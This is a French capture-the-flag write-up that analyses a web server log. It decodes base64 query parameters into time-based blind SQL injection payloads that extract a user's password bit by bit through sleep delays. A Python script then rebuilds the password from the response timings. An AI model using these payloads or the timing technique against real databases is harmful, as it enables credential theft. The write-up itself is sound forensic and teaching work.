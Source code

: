 Un premier script python pour extraire le base64 :
```
% cat /tmp/log_attaque_web.py
#! /usr/bin/python
# -*- coding: utf-8 -*-
 
a = open('/tmp/ch13.txt').read()
 
for i in a.split('order=')[1:]:
    fin = i.find('HTTP') - 1
    print i[:fin]
```

Ensuite, on décode le base64 dans le shell :
```
% for i in $(/tmp/log_attaque_web.py); do echo $i | base64 -d ; echo;echo; done 2> /dev/null
[...]
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),1,1),SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),2,1)),concat(CHAR(48),CHAR(48)),concat(CHAR(48),CHAR(49)),concat(CHAR(49),CHAR(48)),concat(CHAR(49),CHAR(49)))WHEN 1 THEN TRUE WHEN 2 THEN sleep(2) WHEN 3 THEN sleep(4) WHEN 4 THEN sleep(6) END) FROM membres WHERE id=1)
 
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),3,1),SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),4,1)),concat(CHAR(48),CHAR(48)),concat(CHAR(48),CHAR(49)),concat(CHAR(49),CHAR(48)),concat(CHAR(49),CHAR(49)))WHEN 1 THEN TRUE WHEN 2 THEN sleep(2) WHEN 3 THEN sleep(4) WHEN 4 THEN sleep(6) END) FROM membres WHERE id=1)
 
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),5,1),SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),6,1)),concat(CHAR(48),CHAR(48)),concat(CHAR(48),CHAR(49)),concat(CHAR(49),CHAR(48)),concat(CHAR(49),CHAR(49)))WHEN 1 THEN TRUE WHEN 2 THEN sleep(2) WHEN 3 THEN sleep(4) WHEN 4 THEN sleep(6) END) FROM membres WHERE id=1)
 
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,8,1))),7,1)),CHAR(48),CHAR(49)) WHEN 1 THEN sleep(2) WHEN 2 THEN sleep(4)  END) FROM membres WHERE id=1)
[...]
```

Ici, le pirate essaye de trouver le caractère numéro 8 du password.
ascii donne la valeure ascii.
bin converti en binaire.
concat concatène.
field est l’équivalent de switch case en C...

Donc, en fonction des temps de réponses, on va trouver le mot de passe.
Pour les bits de 1 à 6 :
Si c’est 0s, valeure des 2 bits -> 00,
Si c’est 2s, valeure des 2 bits -> 01,
Si c’est 4s, valeure des 2 bits -> 10,
Si c’est 6s, valeure des 2 bits -> 11.

Pour le 7e bit :
Si c’est 2s, valeure des 2 bits -> 0,
Si c’est 4s, valeure des 2 bits -> 1,
Si c’est 0s -> pas de 7e bit !
```
% cat /tmp/log_attaque_web.py
#! /usr/bin/python
# -*- coding: utf-8 -*-
 
a = open('/tmp/ch13.txt').read()
 
tabSec = []
 
for i in a.split('18/Jun/2015:')[1:]:
    fin = i.find('+0200') - 1
    myTime = i[:fin]
    tabSec.append(int(myTime[:2])*3600 + int(myTime[3:5])*60 + int(myTime[6:]))
 
 
pswd = ''
myChar = ''
nb = 0
for i in range(1,len(tabSec)):
    if nb < 3:
        if tabSec[i] - tabSec[i-1] == 0:
            myChar += '00'
        if tabSec[i] - tabSec[i-1] == 2:
            myChar += '01'
        if tabSec[i] - tabSec[i-1] == 4:
            myChar += '10'
        if tabSec[i] - tabSec[i-1] == 6:
            myChar += '11'
 
    if nb == 3:
        if tabSec[i] - tabSec[i-1] == 2:
            myChar += '0'
        if tabSec[i] - tabSec[i-1] == 4:
            myChar += '1'
        pswd += chr(int(myChar,2))
 
    nb += 1
    if nb == 4:
        myChar = ''
        nb = 0
 

print 'dernier octet incomplet : ' + myChar
print pswd
```
```
% /tmp/log_attaque_web.py
dernier octet incomplet : 000000
censuré[..]
% echo -n censuré[..] | md5sum
censuré  -
```
